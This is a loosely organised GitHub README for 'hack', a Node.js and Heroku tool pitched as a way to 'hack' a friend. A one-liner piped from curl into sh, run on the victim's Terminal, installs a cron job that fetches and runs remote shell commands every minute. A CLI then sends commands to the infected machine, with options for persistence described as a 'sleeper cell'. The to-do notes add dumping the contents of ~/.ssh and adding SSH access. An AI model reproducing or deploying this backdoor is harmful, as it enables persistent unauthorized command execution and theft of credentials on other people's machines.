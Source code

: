 # Hack

## Getting Started

Clone, install, and link so you can use the `hack` cli tool.

```sh
git clone https://github.com/ccorcos/hack.git
cd hack
npm install
npm link
```

If you've never used Heroku before, [signup here](https://signup.heroku.com/) (it's free!) and set up their cli tool on your machine.

```sh
brew install heroku-toolbelt
heroku login
```

Create a Heroku app with an easy name to remember.

```sh
heroku create hacker-chet
```

The following command will get the root url for your Heroku webside and put it in your package.json. This way the server knows what to inject into the shell scripts.

```sh
npm run init
```

You can stand up the server locally if you want do you can hack yourself and test things out.

```sh
npm start
```

Or you can deploy to Heroku.

```sh
npm run deploy
```

Now you're ready to hack!

## API

The beauty of this program is that to start hacking someone, its just a one-liner!

```sh
curl <ROOT_URL>/hack | sh
```

`ROOT_URL` is the specific path to your application. When you're testing locally, this will be `localhost:5000` and when you deploy to heroku, it will be something like `<APP_NAME>.herokuapp.com`.

What this does is sets up a cron job to ping the /env/live endpoint every minute and pipes the result to `sh`. Pretty sweet right! And Heroku gives you HTTPS for free so I wouldn't be too worried about hacking yourself with it.

So once you've hacked your friend, you can do everything else with the commandline tool from your computer.










- dump endpoint
- 420 command
- register with noip and add ssh accepted hosts
- ls ~/.ssh/* | xargs cat



- git push heroku master


- heroku ps:scale web=1
- heroku open


- heroku logs --tail


- heroku local web



- xo?


# To Do

- CLI should generate shell scripts with "HACK_URL" which will get injected by express based on the heroku config

-

xo and test


update without pushing / redeploying?

heroku config:set HEROKU_URL=$(heroku info -s | grep web-url | cut -d= -f2)

























git
Start hacking someone by running this command from their Terminal: `curl -Ls chet.sh/hack | sh`. That sets up a cron job every minute which pings `curl chet.sh/live | sh`.

Now go to your commandline and we can start having some fun.

```
hack live exec "say hello world"
hack live interval 1y # sleeper cell
hack live cron "20 16 * * * * say 'its foe 20, ye better be toke-in'"
hack live reset
hack live forget
hack live rename jon
hack jon ...
```

# FYI

http://www.nncron.ru/help/EN/working/cron-format.htm

```
* * * * *
| | | | |
| | | | |
| | | | +---- Day of the Week   (range: 1-7, 1 standing for Monday)
| | | +------ Month of the Year (range: 1-12)
| | +-------- Day of the Month  (range: 1-31)
| +---------- Hour              (range: 0-23)
+------------ Minute            (range: 0-59)
```

# PS

How to make a Node.js CLI app: http://blog.npmjs.org/post/118810260230/building-a-simple-command-line-tool-with-npm

# PPS

Bought the domain name `chet.sh` here: https://www.nic.sh/

# To Do

- demo
- better readme
- better help
- better command validation
- configure with custom domain name

# Getting Started

```sh
git clone ...
cd hack
npm install
npm link
```

On your buddy's computer, just need to run this:

```sh
curl -sL chet.sh/hack | sh
```
